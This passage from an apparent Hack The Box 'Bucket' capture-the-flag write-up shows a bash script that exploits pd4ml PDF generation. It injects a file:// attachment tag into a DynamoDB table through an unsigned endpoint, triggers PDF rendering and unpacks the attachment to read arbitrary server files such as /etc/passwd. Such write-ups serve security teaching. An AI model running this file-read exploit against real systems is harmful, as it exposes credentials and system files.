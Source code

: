 ![Passwd pdf](/assets/htb/Bucket/pdf/passwd-pdf.png)

Seems like we are able to extract /etc/passwd from the server. 

### Exploiting pd4ml to arbitrarily extract files

Let us change the script a bit to extract arbitrary files from the server.

```bash
#!/bin/bash

# Data to insert into table
if [ ! -z "$1" ];
 then
	# Get file read by injecting a pdf attachment that is parsed by the pdf-parser
	DATA="<pd4ml:attachment description='file' src='file://"$1"' icon='Area'/>"
 else
	echo "[-] Specify a file to read!"
	exit -1
fi

# Create table
echo "[*] Creating table..."
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://s3.bucket.htb --no-sign-request 1>/dev/null 2>/dev/null

# Insert data into table
echo "[*] Inserting $1 into table..."
aws dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"}, "data": {"S":"'"$DATA"'"}}' --endpoint-url http://s3.bucket.htb --no-sign-request 1>/dev/null 2>/dev/null

# Trigger pdf creation
echo "[*] Triggering pdf creation..."
curl 127.0.0.1:8000 -d 'action=get_alerts' -s

# Download pdf file
echo "[*] Downloading pdf..."
wget -q http://127.0.0.1:8000/files/result.pdf
# Extract files from pdf
echo "[*] Extracting attachments of pdf..."
pdftk result.pdf unpack_files 1>/dev/null 2>/dev/null
# Cleanup files
echo "[*] Cleaning pdf-file..."
rm result.pdf

```